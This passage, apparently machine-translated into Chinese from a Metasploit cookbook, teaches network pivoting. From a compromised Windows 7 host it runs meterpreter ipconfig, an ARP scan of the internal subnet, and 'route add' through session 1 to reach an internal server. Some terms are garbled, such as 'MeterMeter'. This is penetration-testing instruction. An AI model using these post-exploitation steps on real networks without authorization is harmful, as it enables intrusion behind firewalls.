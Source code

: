 攻击者可以破坏连接到 Internet 的网络外部节点。然后，这些节点与防火墙连接。防火墙后面是主服务器。现在，由于攻击者无法访问服务器，他可以将节点用作访问服务器的媒介。如果攻击者能够成功地破坏节点，那么它也可以进一步穿透网络到达服务器。这是一个典型的场景，涉及到旋转。图中的红线显示了攻击者与服务器之间通过受害节点建立的枢轴路径。在本食谱中，我们将使用我们在上一章中学习的一些 MeterMeter 网络命令。

## 怎么做。。。

让我们看看如何使用 MeterMeter 实现前面讨论的场景。

在本例中，我们的目标节点是连接到网络的 Windows 7 机器。服务器正在 Windows 2003 上运行。该节点已被客户端浏览器漏洞破坏，我们已建立活动的 MeterMeter 连接。让我们从在目标节点上运行 ipconfig 开始，以查看其上的可用接口。

```
meterpreter > ipconfig
Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address: 10.0.2.15
Netmask : 255.255.255.0
VirtualBox Host-Only Ethernet Adapter
Hardware MAC: 08:00:27:00:8c:6c
IP Address : 192.168.56.1
Netmask : 255.255.255.0 
```

如您所见，目标节点有两个接口。一个是连接到 Internet 的 192.168.56.1，另一个是 10.0.2.15，它是内部网络的 IP 接口。我们的下一个目标是找到这个本地网络中还有哪些其他系统可用。为此，我们将使用一个名为 `arp_scanner`的 MeterMeter 脚本。此脚本将在内部网络上执行 ARP 扫描，以查找其他可用系统。

```
meterpreter > run arp_scanner -r 10.0.2.1/24
[*] ARP Scanning 10.0.2.1/24
[*] IP: 10.0.2.7 MAC 8:26:18:41:fb:33
[*] IP: 10.0.2.9 MAC 41:41:41:41:41:41 
```

因此，该脚本成功地在网络上发现了两个可用的 IP 地址。让我们选取第一个 IP 地址并在其上执行数据透视。

## 它是如何工作的。。。

为了使用 IP 10.0.2.7 访问系统（即服务器），我们必须通过目标节点 IP 10.0.2.15 路由所有数据包。

为此，我们将使用一个名为 `route.`的命令，我们在上一章中也了解了这个命令。要使用此命令，我们将对当前 MeterMeter 会话进行后台处理。

```
meterpreter > background
msf exploit(handler) > route add 10.0.2.15 255.255.255.0 1
[*] Route added
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```

查看 route 命令的参数。 `add`参数将把细节添加到路由表中。然后我们提供了目标节点和默认网关的 IP 地址。最后，我们提供了当前活动的 MeterMeter 会话 ID（即 1）。 `route print`命令显示了该表，您可以清楚地看到，通过该网络发送的所有流量现在都将通过 MeterMeter 会话 1。
